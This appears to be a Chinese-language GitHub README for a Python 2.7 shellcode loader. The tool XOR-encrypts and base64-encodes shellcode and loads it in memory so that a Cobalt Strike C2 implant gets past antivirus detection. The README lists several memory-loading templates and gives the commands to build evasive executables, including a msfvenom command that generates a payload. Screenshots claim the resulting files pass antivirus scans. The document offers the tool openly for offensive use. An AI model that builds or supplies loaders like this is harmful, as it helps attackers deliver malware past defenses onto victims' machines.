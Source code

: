 # XG隐地

>  公众号 : XG小刚

用于静态免杀的shellcode加载器，将shellcode进行xor加密后，再base64编码，使用内存加载器加载上线C2



## 使用环境

```
python==2.7
pip install pyinstaller==3.0
```



## 使用方法

目前搭载三种申请内存方式和六种写入内存方式

temper_list :  ["RMM_loader1/2/3","REG_loader1/2/3","MAC_loader1/2/3","UUID_loader1/2/3","ipv4_temper1/2/3","ipv6_temper1/2/3"]



CS生成64位payload.bin文件（注：32位payload使用x86的python）

选择一个加载器模板，运行后在loader_result文件夹生成相应加载器源文件和exe文件（注：生成exe需要安装pyinstaller）

```
./msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -f raw -o payload.bin

usege : python2 XG_YIND.py [shellcode] [loader_temper]
usage : python2 XG_YIND.py payload.bin UUID_loader1
usage : python2 XG_YIND.py 123.bin RMM_loader1
```
![img](img/img.png)
# 免杀效果

2021/7/26，效果还可以，就是exe文件在4M左右

![image](img/126963567-08c24054-ac82-4db6-ac3f-50c9926d2beb.png)

![image](img/126963475-25eae755-4a24-4796-b169-40b4910c99e5.png)

![image](img/126963952-55119da1-0304-4b67-a4f3-76bbaa81c196.png)

![image](img/126963503-c4d38ba4-0c56-467d-95eb-3c21884b5cd1.png)



# 公众号对应文章：

https://mp.weixin.qq.com/s/_uMFatf4_yfGit-Xu7Ml9A

https://mp.weixin.qq.com/s/-WcEW1aznO2IuCezkCe9HQ

https://mp.weixin.qq.com/s/CSi7iQCg25AIfmqWNAYrhQ

https://mp.weixin.qq.com/s/TdRAiRuts0rSNOKqZxzzmw

https://mp.weixin.qq.com/s/qSs4avStVOIUaAF6Krb-wA

https://mp.weixin.qq.com/s/ZbRG7SGZxCucpQI7cmeDbg
